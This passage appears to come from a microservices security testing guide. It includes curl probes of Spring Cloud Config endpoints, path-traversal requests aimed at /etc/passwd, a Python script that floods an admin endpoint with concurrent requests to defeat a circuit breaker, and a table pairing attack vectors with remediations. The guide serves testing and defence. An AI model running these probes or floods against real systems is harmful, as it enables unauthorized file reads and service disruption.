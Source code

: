 ```bash
```

### **Configuration Management Security**
```bash
# Test for exposed configuration
curl http://config.local:8888/application/default
curl http://config.local:8888/admin/configprops
curl http://config.local:8888/admin/env

# Spring Cloud Config security testing
curl "http://config.local:8888/../../etc/passwd"
curl "http://config.local:8888/app/default/master/..%2f..%2fetc%2fpasswd"
```

### **Circuit Breaker Security**
```python
# Test circuit breaker bypass
import concurrent.futures
import requests

def attack_request():
    try:
        return requests.get("http://service/admin", timeout=1)
    except:
        return None

# Overwhelm circuit breaker
with concurrent.futures.ThreadPoolExecutor(max_workers=100) as executor:
    futures = [executor.submit(attack_request) for _ in range(1000)]
    results = [f.result() for f in concurrent.futures.as_completed(futures)]
```

---

## **Summary: Enhanced Technical Remediation Strategy**

| **Modern Attack Vector** | **Detection Method** | **Technical Remediation** |
|---------------------------|---------------------|----------------------------|
| **SSTI** | Template math expressions `{{7*7}}` | Sandboxed templates, input validation, CSP |
| **GraphQL Injection** | Introspection queries, deep nesting | Query complexity analysis, depth limiting, field-level auth |
| **Container Escape** | Privileged containers, capability checks | Non-root containers, restricted capabilities, security policies |
| **Service Mesh Bypass** | mTLS validation, policy enumeration | Strict mTLS, network policies, zero-trust architecture |
| **Supply Chain Attacks** | Dependency confusion, malicious packages | SCA tools, package signing, private registries |
| **JWT Algorithm Confusion** | Algorithm manipulation, key confusion | Strict algorithm validation, proper key management |
| **Cloud Storage Exposure** | Public bucket enumeration | Bucket policies, encryption, access logging |
| **CSP Bypass** | JSONP abuse, trusted domain exploitation | Strict CSP, nonce-based policies, regular audits |
| **Prototype Pollution** | `__proto__` injection | Object freezing, input sanitization, secure parsers |
| **API Gateway Bypass** | Host header injection, path traversal | Request validation, proper routing, authentication |
